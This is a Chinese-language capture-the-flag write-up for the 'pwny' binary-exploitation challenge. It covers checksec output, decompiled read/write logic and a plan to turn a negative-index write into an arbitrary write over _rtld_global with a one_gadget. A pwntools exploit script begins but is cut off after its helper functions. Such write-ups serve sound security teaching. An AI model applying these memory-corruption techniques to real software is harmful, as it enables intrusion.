 # 14th国赛 - pwn部分

### pwny:

[题目](https://pan.baidu.com/s/10Yml7t2jzAmkM8bt1AvqXw) [libc](https://pan.baidu.com/s/1uo0g5v7wjrjk_GRjAKeJ8A) 提取码：GAME

checksec:

> ```
>     Arch:     amd64-64-little
>     RELRO:    Full RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      PIE enabled
> ```



#### 思路：

因为题目是通过随机数控制read和write执行与否，所以在第一次调用write时，直接用

```c
  __isoc99_scanf("%ld", &v2);
  v0 = v2;
  v2 = 0LL;
  read((unsigned __int8)byte_202860, &v2, 8uLL);
  qword_202060[v0] = v2;
```

```
.bss:0000000000202060 qword_202060    dq 100h dup(?)          ; DATA XREF: sub_B20+45↑o
.bss:0000000000202060                                         ; write+5F↑o
.bss:0000000000202860 byte_202860     db ?                    ; DATA XREF: sub_A10+57↑w
```

覆盖bss段上的随机数后一位为\x00 就能正常执行read和write 

存在负数溢出任意地址写 打`_rtld_global+3848`为one即可



#### exp:

```python
from pwn import *
context(arch='amd64',endian='el',os='linux')
context.log_level = 'debug'
debug = 1
if debug == 1:
    p = process("./chall")
else:
    p = remote("")

elf = ELF("./chall",checksec=False)
libc = ELF("./libc-2.27.so",checksec=False)
one = [0x4f3d5,0x4f432,0x10a41c]

def read(index):
    p.sendlineafter("Your choice: ",str(1))
    p.sendafter("Index: ",str(index))
   	
def write0(index,content):
    p.sendlineafter("choice: ",str(2))
    p.sendafter("Index: ",str(index))
    p.send(content)
    
p.sendlineafter("choice: ",str(2))
```